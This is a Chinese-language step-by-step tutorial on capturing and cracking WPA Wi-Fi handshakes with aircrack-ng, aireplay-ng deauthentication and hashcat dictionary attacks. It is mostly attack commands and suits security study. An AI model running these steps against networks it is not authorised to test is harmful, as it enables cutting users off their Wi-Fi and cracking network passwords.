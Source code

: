# WPA 握手包攻击

## 手动

1. 查看网络设备, 获取无线网卡名称.

    ```sh
    iwconfig
    ```

2. 开启无线网卡监听模式.

    ```sh
    sudo airmon-ng start wlan0
    ```

    若设备被占用, 执行下列命令来结束占用设备的进程:  

    ```sh
    sudo airmon-ng check kill
    ```

    开启监听模式后, 无线网卡名称发生改变. 后面会附加 `mon` (monitor), 即 `wlan0mon`.

    !!! warning
        监听模式开启后的无线网卡将无法访问 Internet, 直到监听模式被关闭.

3. 监听 Wi-Fi 信号.

    ```sh
    sudo airodump-ng wlan0mon
    ```

    当发现目标 Wi-Fi 时按 `Ctrl+C` 停止扫描. 并记录 BSSID 和 CH 两个参数.

4. 捕获指定 Wi-Fi 通信内容.

    ```sh
    sudo airodump-ng -w [.cap file] -c [CH] --bssid [BSSID] wlan0mon
    ```

5. 断开指定设备与指定 Wi-Fi 的链接.

    ```sh
    sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
    ```

    目标设备从指定 Wi-Fi 断开链接后将尝试重连, 会向路由器发送握手包. 而第 4 步将会捕获这个握手包.

6. 当第 4 步提示捕获握手包时按下 `Ctrl+C` 结束监听.

    此时, 握手包的数据已经被记录在第4步指定的 `.cap` 文件中.

7. 对 `.cap` 文件中握手包的 hash 进行破解.

    - 使用 Hashcat. (推荐)

        ```sh
        aircrack-ng [.cap file] -j [.haccpx file]       # 将 .cap 文件转为 hashcat 接受的 .haccpx 文件
        hashcat -m 2500 -a 0 [.hccapx file] [dict file] # 利用 hashcat 进行破解
        ```

    - 使用 aircrack-ng.

        ```sh
        aircrack-ng [.cap file] -w [dict file]
        ```

8. 关闭无线网卡监听模式.

    ```sh
    sudo airmon-ng stop wlan0mon
    ```

    若第 2 步中结束的进程没有自动恢复, 则需要手动启动.

## 自动化

可以利用 Airgeddon/[wifite2](https://github.com/derv82/wifite2)/[WEF](https://github.com/D3Ext/WEF) 等工具来简化上面的流程.

![Wi-Fite2 WAP Handshake attack](https://camo.githubusercontent.com/241679fd57d09ce160bbaf04886b896d1d101d405fc4d692954beefc8e477a07/68747470733a2f2f692e696d6775722e636f6d2f4636565068626d2e676966)
